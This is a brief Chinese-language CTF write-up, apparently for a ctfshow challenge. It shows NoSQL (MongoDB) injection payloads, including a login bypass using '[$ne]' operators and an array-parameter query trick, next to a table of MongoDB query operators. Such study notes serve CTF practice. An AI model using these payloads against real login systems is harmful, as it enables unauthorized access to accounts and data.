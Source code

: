 使用工具nosqlattack。不能用sqlmap。

```
/api/?id[]=flag
```
语句
```
$query = new MongoDB\Driver\Query($data);
$cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();

直接登录
username[$ne]=1&password[$ne]=1
$ne是不相等的意思
```

^
| 方法名  | 描述                                                   |
| ---- | ---------------------------------------------------- |
| $gt  | 大于                                                   |
| $lte | 小于等于                                                 |
| $in  | 包含                                                   |
| $nin | 不包含                                                  |
| $lt  | 小于                                                   |
| $gte | 大于等于                                                 |
| $ne  | 不等于                                                  |
| $eq  | 等于                                                   |
| $and | 与                                                    |
| $nor | $nor在NOR一个或多个查询表达式的数组上执行逻辑运算，并选择 对该数组中所有查询表达式都失败的文档。 |
| $not | 反匹配(1.3.3及以上版本)，字段值不匹配表达式或者字段值不存在。                   |
| $or  | 或                                                    |

